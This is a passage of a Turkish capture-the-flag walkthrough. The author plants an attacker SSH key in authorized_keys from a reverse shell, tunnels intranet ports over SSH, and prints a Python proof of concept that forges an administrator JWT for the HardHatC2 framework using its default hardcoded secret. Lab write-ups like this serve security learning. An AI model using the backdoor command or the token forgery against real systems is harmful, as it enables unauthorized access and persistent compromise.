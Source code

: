 Kendi `id_rsa.pub` anahtarınızı bu dosyaya ekleyin. Reverse shell'de aşağıdaki komutu çalıştırabilirsiniz:

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDj/3gLb5CqayZHG8NynOzx6uN6tOAkNG3E5OKxFv6tTLIiA89T8l+68Pm/VjXcQ1y3/S3TqQf73p6MRKOy+zK6Ay3S/oKoI4+0dp5DcJjn01ZG87hCQWdriR93HUcYgUG71AI+M8GzEYe3x+xdDLOOjdM+1R4Pjm21R/vW7FFvzG265B5nZtMoLesHXSCvdrE6WwhVULcnH1Hn+1SnP5ZlGkdJaKtKcph4K0fittKij1US/SZ6P6szf4PpOjF8xyhBpizqqfuu2ACCTBUB2yznYSH0JCIC4UMGNZNpVN0lK8vGMbFEPs+rn9Pm017jlJTth3JjYdXyJdKl2vCnj9x5 root@kali" >> authorized_keys
```

![Pasted image 20250121203645.png](/img/user/Pasted%20image%2020250121203645.png)

![Pasted image 20250121203714.png](/img/user/Pasted%20image%2020250121203714.png)

![Pasted image 20250121203737.png](/img/user/Pasted%20image%2020250121203737.png)

![Pasted image 20250121203753.png](/img/user/Pasted%20image%2020250121203753.png)

"Sergej, HardHatC2'yi test amacıyla kurduğunu ve varsayılan ayarları değiştirmediğini söyledi.  
Umarım Havoc'u tercih eder çünkü başka bir C2 framework'ü öğrenmek istemiyorum, ayrıca Go > C#."

İntranet portlarının durumunu kontrol etme

![Pasted image 20250121203927.png](/img/user/Pasted%20image%2020250121203927.png)

Bu HardHatC2 ile ilgili güvenlik açıklarını ararken şunu buldum 👇

https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7

Öncelikle, SSH aracılığıyla intranet üzerindeki 7096 ve 5000 numaralı portları proxy'lemeniz gerekir

![Pasted image 20250121204109.png](/img/user/Pasted%20image%2020250121204109.png)

sonra çalıştır

```
# @author Siam Thanat Hack Co., Ltd. (STH)
import jwt
import datetime
import uuid
import requests
 
rhost = '127.0.0.1:5000'
 
# Craft Admin JWT
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"
issuer = "hardhatc2.com"
now = datetime.datetime.utcnow()
 
expiration = now + datetime.timedelta(days=28)
payload = {
    "sub": "HardHat_Admin",  
    "jti": str(uuid.uuid4()),
    "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
    "iss": issuer,
    "aud": issuer,
    "iat": int(now.timestamp()),
    "exp": int(expiration.timestamp()),
    "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}
 
token = jwt.encode(payload, secret, algorithm="HS256")
print("Generated JWT:")
print(token)
 
```